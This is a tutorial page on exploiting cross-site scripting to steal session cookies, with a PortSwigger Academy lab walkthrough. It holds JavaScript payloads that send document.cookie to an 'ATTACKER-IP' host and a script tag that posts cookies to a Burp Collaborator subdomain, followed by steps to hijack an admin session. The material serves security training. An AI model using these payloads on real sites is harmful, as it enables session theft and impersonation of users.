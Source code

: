 Stealing cookies is a traditional way to exploit XSS as most web applications uses cookies for session handling. Once an attacker is able to retrieve the victim's cookies, they can use it to impersonate the victim. However, this practice has some limitations:
- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.
> Note: Make sure that `HttpOnly` is set to false before attempting this attack, otherwise, it will not work. This is because the `HttpOnly` flag helps mitigate the risk of client side scripting from accessing the protected cookies.
## XSS Payloads
An attacker can start their own server using Python's `http` module or start a Netcat listener and submit the following payloads:
```javascript
document.location='http://ATTACKER-IP/index.php?c='+document.cookie;
new Image().src='http://ATTACKER-IP/index.php?c='+btoa(document.cookie);
```
Once the payload is triggered by a user visiting the vulnerable page, a HTTP request will be sent to the attacker's server containing the stolen cookie.
## Example from PortSwigger Academy
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```
This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.